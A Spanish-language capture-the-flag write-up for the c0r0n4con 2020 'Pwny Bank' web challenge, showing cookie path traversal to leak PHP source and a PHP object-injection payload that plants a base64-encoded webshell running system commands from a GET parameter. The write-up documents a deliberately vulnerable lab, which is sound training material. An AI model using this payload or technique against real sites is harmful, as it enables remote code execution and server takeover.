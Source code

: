 ### c0r0n4con CTF 2020

##### Challenge: Pwny Bank

##### Category: Web

##### Points: 250

##### Solves: 87/362

##### Description: The latest launched application allows bank users to generate their passwords. It seems its administrator are too lazy to properly configure the password's manager, will you be able to find out the hidden functionality?

![web250](https://user-images.githubusercontent.com/38633962/79078110-6a9a6300-7d06-11ea-84a5-fc33843e06d7.png)

Tras acceder a la web y analizar el código fuente, se pudo visualizar el siguiente comentario:
```html
<!--(admin notes)Only administrator can manage this secure password store server. Since we're lazy, we take advantage to properly manage user passwords via GET.-->
```
Al visualizar las cookies se vio la varible "user=pwnyBank", así que tras cambiar "pwnyBank" por "admin" se vio que uno de los mensajes de la web cambiaba, por lo que parceía que había algo detrás de ello.

En el archivo "/robots.txt", se podían encontrar las siguientes entradas:
```txt
User-agent: *
Disallow: backup.txt
Disallow: /tmp
Disallow: /info
```
Al acceder a "/backup.txt" se recibía "MOVED OUTSIDE WEBDIR FOR SECURITY REASONS" y al acceder a "/info" se encontraban dos archivos .txt: "admin.txt" y "pwnyBank.txt", así que parecía ser que el campo "user" de la cookie incluía uno de estos ficheros (concatenando ".txt"). Por lo que se le pasó a la cookie "user=../../backup", y se obtuvo el siguiente código:

```php
<p>Welcome to ../../backup</p><p><strong>Summary:</strong></p><p><pre>class SecurePasswordManager{
    function __construct() {
    }
    
   
    function __destruct() {
            $sid = session_id();
            mkdir("/app/public/tmp/{$sid}/");
            $filesize = file_put_contents("/app/public/tmp/{$sid}/{$this->filename}", $this->content);
            $filename = "/app/public/tmp/{$sid}/{$this->filename}";
            if ($filesize === 48){
                    echo "Administrator feauture: Uploaded user password file";
                    $password = file_get_contents($filename);
                    $content= base64_decode($password);
                    $file = fopen($filename, 'w');    
                    fwrite($file, $content);
                    fclose($file);
                    echo "[+] Debug: Done";
	    }
	    else {
	    unlink($filename);
	    }
    }
}

$data = unserialize($_GET['data']);
```

Tras analizar el código, parecía un fallo de *unserialize*, ya que se le pasaba directamente el parámetro GET "data" a unserialize. Así que se debía crear un nuevo objeto para que se ejecutase lo que nosotros queríamos al entrar en "__destruct()".

Las condiciones de ejecución eran que el contenido de "content" fuese en base64 y que tuviera una longitud de 48. Así que con estas condiciones, se podía crear por ejemplo el siguiente payload que nos permitía crear una webshell en "*/tmp/{$sid}/{$this->filename}*":

```
?data=O:21:"SecurePasswordManager":2:{s:8:"filename";s:5:"l.php";s:7:"content";s:48:"PD9waHAgc3lzdGVtKCRfR0VUWydlZWVlZWVlZSddKTs/Pg==";}"
```

Analizando el comportamiento de la web se detectó que el contenido de "/tmp/..." variaba cada 2 segundos aproximadamente, así que se hizo un mini script para automatizar el proceso de creación del objecto y acceso al recurso creado.

Tras varias pruebas, se identificó que en el directorio raíz del servidor había un archivo llamado "flag.9f734b1948ae016cd9d01b0f12ffc8be6af2659e87372d78e1a5751d0a74fb2f95206e076c12bfbe8b41bed106f5b79787a329621ae9a1ebb8f056f878816a74" y tras mostrar su contenido se obtuvo el flag esperado:
```
flag{n41v3n0m_w4p0}
```


